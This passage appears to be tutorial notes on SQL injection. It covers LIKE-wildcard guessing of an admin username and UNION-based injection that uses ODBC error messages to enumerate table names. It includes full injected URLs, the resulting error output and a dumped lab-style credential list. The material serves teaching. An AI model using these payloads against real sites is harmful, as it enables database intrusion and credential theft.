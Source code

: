 The results from the query will let you read all of the usernames and passwords, for example:

```
...  
administrator~s3cure  
wiener~peter  
carlos~montoya  
...
```



---

The use of a LIKE clause, another method of SQL injection
- Example:
- inserting wildcard characters (like %),
  - Then, the WHERE clause = TRUE when the argument strPartName is included as part of a part name:
  - Then, all parts names include the string `abc` will be returned.  
  - `SELECT PartCost, PartName FROM PartsList WHERE PartName LIKE '%abc%';`
- employ the wildcard symbol to guess the admin username:
  - querying with `ad%`.  

---

incorporating the UNION and LIKE statements is to use the **ODBC error message** to gather information from the database.

Example 1:
- the page `http://page/index.asp?id=20`.
- use the UNION statement to set up a query as follows:  
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES --`
    - <kbd>Information_Schema Tables</kbd>: hold data on all the tables in the server database
    - <kbd>Table Name</kbd> field: holds name of each table in the database.

- This string attempts to UNION the integer 20 with another string from the database.
  - `SELECT`: provide the name of the ﬁrst table in the database
  - `UNION`: result in the SQL server attempting to convert a character string to integer.

- This conversion will fail, error message will be return and provides the information:
  - the string could not be converted to an integer
  - provides the name of the first table in the database, namely employeetable.

> Microsoft OLE DB Provider for ODBC Drivers error '80040e07‘
> [Microsoft] [ODBC SQL Server Driver] [SQL Server]Syntax error converting the nvarchar value 'employeetable' to a column of data type int.
> /index.asp, line 6  

- Then using the following statement,
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME not IN ('employeetable') --`
  - the name of the next table in the database tables will be returned



Example 2:
- use the LIKE keyword in the following statement, additional information can be found:  
  - `http://page/index.asp?id=20 UNION SELECT TOP 1 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%25 login%25'--`  
  - The term `'%25login%25'`: will be interpreted as `%login%` by the server.
  - The resulting **ODBC error message** would be:
    - The ODBC error message identifies a table name as `sys_login`.

